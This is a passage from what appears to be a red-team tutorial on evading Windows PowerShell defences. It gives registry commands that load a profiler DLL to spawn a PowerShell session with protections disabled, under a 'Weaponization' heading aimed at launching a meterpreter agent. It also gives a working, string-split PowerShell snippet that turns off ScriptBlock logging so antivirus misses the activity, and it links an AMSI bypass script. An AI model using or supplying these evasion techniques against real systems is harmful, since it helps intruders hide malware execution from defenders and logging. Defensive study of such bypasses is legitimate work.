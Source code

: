 2. via the Registry (**any user**)

```cmd
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell
```

The PowerShell terminal that appears will have all the protection mechanisms disabled.
For more info regarding the internals, I forward you to his amazing [DerbyCon talk](https://www.youtube.com/watch?v=Y3oMEiySxcc). [9]
If you are interested in the detection side, I suggest to check out his other project [Babel-Shellfish](https://github.com/OmerYa/Babel-Shellfish). [15]

## Weaponization

Let's see how we can use this technique in order to spawn a meterpreter agent on the target machine.
We need to do two things in order to do that:

1. disable logging on disk
2. execute the AMSI bypass

A ready to use [Invoke-Bypass.ps1](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1) script is available on [d0nkeys/redteam](https://github.com/d0nkeys/redteam) repository on GitHub. [12]

### Disable ScriptBlockLog

First of all, in order to avoid to be detected after having disabled AMSI, we need to be sure that no logs of our commands are saved on disk, otherwise the AV will spot our activity. There is a public known bypass to disable the built-in `ScriptBlockLog` mechanism of PowerShell. [17]

```powershell
$GPF=[ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','N'+'onPublic,Static');
If($GPF){
    $GPC=$GPF.GetValue($null);
    If($GPC['ScriptB'+'lockLogging']){
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockInvocationLogging']=0
    }
    $val=[Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptB'+'lockLogging',0);
    $val.Add('EnableScriptB'+'lockInvocationLogging',0);
    $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val
} Else {
    [ScriptBlock].GetField('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
}
```
